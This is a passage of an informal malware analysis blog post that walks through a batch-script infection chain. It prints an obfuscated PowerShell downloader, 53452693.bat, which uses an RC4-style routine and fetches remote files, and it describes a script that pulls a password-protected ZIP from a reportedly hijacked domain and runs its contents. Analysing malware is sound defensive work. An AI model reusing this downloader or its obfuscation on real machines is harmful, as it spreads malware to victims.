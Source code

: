 ```bat
)
:END1
if exist %~dp0%fn%.zip (
    del /f /q %~dp0%fn%.zip > nul
)
```

1. Grabs a ZIP file (`di3726.zip`) from `ausbildungsbuddy.de`.
2. If it downloads, unzips it with password `a0`, deletes the ZIP, and runs `1.bat`.
3. Cleans up the ZIP no matter what.

That `ausbildungsbuddy.de` domain? It’s legit—a German vocational training site—but SecAI says it’s been hijacked for shady stuff ([https://i.secai.ai/research/ausbildungsbuddy.de](https://i.secai.ai/research/ausbildungsbuddy.de)). That’s when I knew we were in deep.

![Ausbildungsbuddy Site](attachment:cb2c8b48-9406-411f-8d1d-7d470ca02460:image.png)
![SecAI Report](attachment:382b4f28-5163-478d-9a1b-d6e86b17161e:image.png)

### Third Batch Script: 53452693.bat (The Downloader)

```bat
@echo off
pushd %~dp0
set "tgurl=%~1"
set "md12=%~3"
if not "%md12%" == "0" (
    powershell -command "function AgDEdztLPwc{param ($sUyjrHhlKLI,$fpmGhyBZVd);$BTAikdYGnq = [System.Text.Encoding]::UTF8.GetBytes($sUyjrHhlKLI);    $qsqCcCdIRk = [System.Text.Encoding]::UTF8.GetBytes($fpmGhyBZVd);$cIakGGgWdq = New-Object byte[](256);$yfqibmGyCxfO = New-Object byte[](256);for ($KClwzWzYuUS = 0; $KClwzWzYuUS -lt 256; $KClwzWzYuUS++) {$cIakGGgWdq[$KClwzWzYuUS] = $KClwzWzYuUS;$yfqibmGyCxfO[$KClwzWzYuUS] = $qsqCcCdIRk[$KClwzWzYuUS %% $qsqCcCdIRk.Length];}$BJwZmpumfis = 0;for ($KClwzWzYuUS = 0; $KClwzWzYuUS -lt 256; $KClwzWzYuUS++) {$BJwZmpumfis = ($BJwZmpumfis + $cIakGGgWdq[$KClwzWzYuUS] + $yfqibmGyCxfO[$KClwzWzYuUS]) %% 256;$hfKcPmzfho = $cIakGGgWdq[$KClwzWzYuUS];$cIakGGgWdq[$KClwzWzYuUS] = $cIakGGgWdq[$BJwZmpumfis];$cIakGGgWdq[$BJwZmpumfis] = $hfKcPmzfho;}$emLSkKMjpc = New-Object byte[] $BTAikdYGnq.Length;$KClwzWzYuUS = 0;$BJwZmpumfis = 0;for ($OXyfStRauo = 0; $OXyfStRauo -lt $BTAikdYGnq.Length; $OXyfStRauo++) {$KClwzWzYuUS = ($KClwzWzYuUS + 1) %% 256;$BJwZmpumfis = ($BJwZmpumfis + $cIakGGgWdq[$KClwzWzYuUS]) %% 256;$hfKcPmzfho = $cIakGGgWdq[$KClwzWzYuUS];$cIakGGgWdq[$KClwzWzYuUS] = $cIakGGgWdq[$BJwZmpumfis];$cIakGGgWdq[$BJwZmpumfis] = $hfKcPmzfho;$JCHwkFZRYoU = ($cIakGGgWdq[$KClwzWzYuUS] + $cIakGGgWdq[$BJwZmpumfis]) %% 256;$emLSkKMjpc[$OXyfStRauo] = $BTAikdYGnq[$OXyfStRauo] -bxor $cIakGGgWdq[$JCHwkFZRYoU];}$lRIcClUdCG = [System.Convert]::ToBase64String($emLSkKMjpc);return $lRIcClUdCG;};$EAqsrDUfsMc = '%tgurl%';$wHVNKEIlGGw = '%~2';Add-Type -AssemblyName 'System.Web';$BoMcqUMPpEc=(Get-Date).Ticks.ToString();$fDdXHAKWolqN = $EAqsrDUfsMc.Split('?')[1];$jeGSnWlkwbSC = AgDEdztLPwc -sUyjrHhlKLI $fDdXHAKWolqN -fpmGhyBZVd $BoMcqUMPpEc;$EAqsrDUfsMc=$EAqsrDUfsMc.Split('?')[0]+'?'+$BoMcqUMPpEc+'='+[System.Web.HttpUtility]::UrlEncode($jeGSnWlkwbSC);iwr -Uri $EAqsrDUfsMc -OutFile $wHVNKEIlGGw;" > nul
)else (
    powershell -command "$url1 = '%tgurl%';$outfile = '%~2';iwr -Uri $url1 -OutFile $outfile;" > nul
)
```

This guy’s a downloader, grabbing files from URLs. If they’re encrypted, it cracks them with an RC4-like trick and a timestamp key. It’s like a sneaky delivery guy dropping off packages.
